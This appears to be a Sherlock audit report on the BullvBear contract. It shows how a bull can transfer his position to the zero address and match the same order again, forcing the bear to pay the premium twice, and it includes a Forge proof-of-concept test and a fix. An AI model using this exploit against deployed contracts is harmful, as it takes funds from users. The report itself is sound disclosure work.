 neumo

medium

# Malicious bull can match order multiple times

## Summary
A malicious bull can transfer his position to `address(0)` after the order has been matched, making it possible to call `matchOrder` again and force the `bear` (and himself) to send their price amount (`premium` and `collateral` respectively) to the contract one more time.

## Vulnerability Detail
After an order has been matched, function `checkIsValidOrder` prevents from another call to `matchOrder` whith this require:
https://github.com/sherlock-audit/2022-11-bullvbear/blob/main/bvb-protocol/src/BvbProtocol.sol#L760
If we managed to change the `Bull` back to `address(0)` we would be able to call `matchOrder` again without revert, and force another transfer of `premium` and `collateral` from the `bear` and the `bull` respectively. 
And the bull can do this by calling the `transferPosition` function:
https://github.com/sherlock-audit/2022-11-bullvbear/blob/main/bvb-protocol/src/BvbProtocol.sol#L521-L538
By calling this function passing in the `orderHash`, `isBull = true` and `recipient = address(0)` we can accomplish this and call again `matchOrder`.
This action coul be repeated as long as both the `bear` and the `bull` have enough funds and both have approved the `BullVBear` contract to spend them.

## Impact
As the cost of matching an order for a `Bull` will be greater than the cost for a `Bear` (as per the protocol documentation), the Bull would have to spend more than what he wants the `Bear` to loose. That is why I label this report as a Medium issue.

## Code Snippet
The following test, added to the file [MatchOrder.t.sol](https://github.com/sherlock-audit/2022-11-bullvbear/blob/main/bvb-protocol/test/unit/MatchOrder.t.sol) shows the issue in action.
```solidity
function testIssueMultipleMatchingOfAnOrder() public {

	// default order has a premium of 0x9876 WETH and a collateral of 0x9876abc WETH
	BvbProtocol.Order memory order = defaultOrder();

	bytes memory signature = signOrder(bullPrivateKey, order);

	// The initial WETH balance of the bvb contract is 0
	assertEq(WETH(weth).balanceOf(address(bvb)), 0);

	bvb.matchOrder(order, signature);

	// After matching the order the WETH balance of the bvb contract 
	// is greater that premium + collateral (because of the fees)
	assertGt(WETH(weth).balanceOf(address(bvb)), 0x9876 + 0x9876abc);

	bytes32 orderHash = bvb.hashOrder(order);

	// Bull transfers the position to the zero address, making it possible to match the order again
	vm.prank(bull);
	bvb.transferPosition(orderHash, true, address(0));

	vm.prank(bull);
	bvb.matchOrder(order, signature);

	// After matching the order for the second time, the WETH balance of the bvb contract 
	// is greater that twice the premium + collateral (because of the fees)
	assertGt(WETH(weth).balanceOf(address(bvb)), (0x9876 + 0x9876abc)*2);
}
```
**NOTE**:  For the test to work, the file has to import the `WETH` contract:
`import {WETH} from "solmate/tokens/WETH.sol";`
## Tool used
Forge tests and manual Review

## Recommendation
Either prevent the `transferPosition` function to transfer to the zero address, or update the nonce of the maker when calling `matchOrder` so another call with the same Order would fail.
